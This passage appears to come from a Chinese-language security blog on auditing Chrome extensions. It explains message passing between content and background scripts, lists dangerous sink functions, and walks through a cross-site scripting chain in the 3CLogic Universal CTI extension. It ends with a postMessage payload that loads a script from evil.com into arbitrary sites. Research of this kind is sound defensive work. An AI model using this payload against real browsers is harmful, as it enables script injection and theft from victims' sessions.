 这段代码会把接收到的消息通过`window.chrome.extension.sendMessage`转发出去。

通过这样的代码我们就可以直接和popup/bg 层沟通，也代表我们有**一定的可能**构造一个利用。

### 恶意函数

反之，我们也可以从利用的角度思考，popup/bg script没办法直接和页面沟通，换言之，也就是说如果在popup/bg script中存在可以被利用的点，一定是来源于相应的恶意函数。

而其中相应的恶意函数只有几个，分别是：
```
chrome.tabs.executeScript
chrome.tabs.update

eval
setTimeout
```

**executeScript**可以在任意页面执行代码，而**update函数**可以更新页面中的信息，包括url等，**eval和setTimeout可以执行插件代码**，但也同样会被可能会受到CSP的限制。

从利用的角度来讲，只有popup/bg script存在这样的函数，并且参数可控，那么才有可能诞生一个漏洞。

### 举个栗子 - 3CLogic Universal CTI XSS

首先根据manifest的内容可以知道，这个插件可以通过构造的方式生效在任意域下。

![image-20210817171905056](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20210817171906.png)

Content层也存在可控的中转函数

![image-20210817173049880](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20210817173051.png)

Bg层接收到消息之后，触发processMessage函数

![image-20210817173424538](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20210817173426.png)

processMessage函数根据传入的操作类型转到相应的接口。其中就包含可以给任意tag插入js的sendInjectEvent函数

![image-20210817173539993](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20210817173541.png)

sendInjectEvent会将传入的参数拼接到函数内，并通过创建标签的方式为指定的tag新建标签。

![image-20210817173656585](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20210817173658.png)

整个利用链被链接起来，简化为：

1、构造恶意页面在`“*://*/*3cphone.html*”`，受害者访问该页面/将链接植入到某个点击劫持/URL跳转/。
2、打开其他目标页面如微博、twitter等。
3、恶意页面发送

```
window.postMessage(JSON.stringify({
	“method”: “OnInjectScript”,
	“forSite”: “.”, 
	“selectedLibs": [
		https://evil.com/evil.js
	]}), "*")
```
